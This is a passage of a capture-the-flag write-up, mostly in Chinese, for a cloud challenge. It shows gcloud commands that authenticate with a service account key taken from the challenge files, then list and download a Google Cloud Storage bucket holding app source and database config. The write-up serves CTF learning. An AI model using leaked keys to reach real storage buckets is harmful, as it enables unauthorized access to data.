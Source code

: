 > This carving is thought to hold the key for accessing the mythical vault in the clouds that is rumored to hold as much gold as the legendary underground vault. After a long search, you manage to find the vault at [http://34.29.127.192](http://34.29.127.192/). Can you get in?
> 

[cloud_cloudofsmoke.zip](./image/2024-05-28/cloud_cloudofsmoke.zip)

F12 发现背景图 URL 是从谷歌存储里的

```bash
https://storage.googleapis.com/cloud-vault-assets/img/cloud-vault.png
```

找了下使用 service account key 的方法

[https://cloud.google.com/sdk/gcloud/reference/auth/activate-service-account](https://cloud.google.com/sdk/gcloud/reference/auth/activate-service-account)

```bash
gcloud auth activate-service-account --key-file=key.json
```

然后就能看存储里的东西了，然后把东西放到本地，方便看

```bash
> gcloud storage ls gs://cloud-vault-assets/

gs://cloud-vault-assets/cloudvault-dev-files/
gs://cloud-vault-assets/img/
```

```bash
> gcloud storage ls -r gs://cloud-vault-assets/
gs://cloud-vault-assets/:

gs://cloud-vault-assets/cloudvault-dev-files/:
gs://cloud-vault-assets/cloudvault-dev-files/
gs://cloud-vault-assets/cloudvault-dev-files/app.js
gs://cloud-vault-assets/cloudvault-dev-files/package.json

gs://cloud-vault-assets/cloudvault-dev-files/config/:
gs://cloud-vault-assets/cloudvault-dev-files/config/db.js

gs://cloud-vault-assets/img/:
gs://cloud-vault-assets/img/
gs://cloud-vault-assets/img/cloud-vault.png
```

```bash
> gcloud storage cp -r gs://cloud-vault-assets/ .

Copying gs://cloud-vault-assets/cloudvault-dev-files/app.js to file://./cloud-vault-assets/cloudvault-dev-files/app.js
Copying gs://cloud-vault-assets/cloudvault-dev-files/config/db.js to file://./cloud-vault-assets/cloudvault-dev-files/config/db.js
Copying gs://cloud-vault-assets/cloudvault-dev-files/package.json to file://./cloud-vault-assets/cloudvault-dev-files/package.json
Copying gs://cloud-vault-assets/img/cloud-vault.png to file://./cloud-vault-assets/img/cloud-vault.png
  Completed files 4/4 | 6.4MiB/6.4MiB | 1.3MiB/s

Average throughput: 974.2kiB/s
```
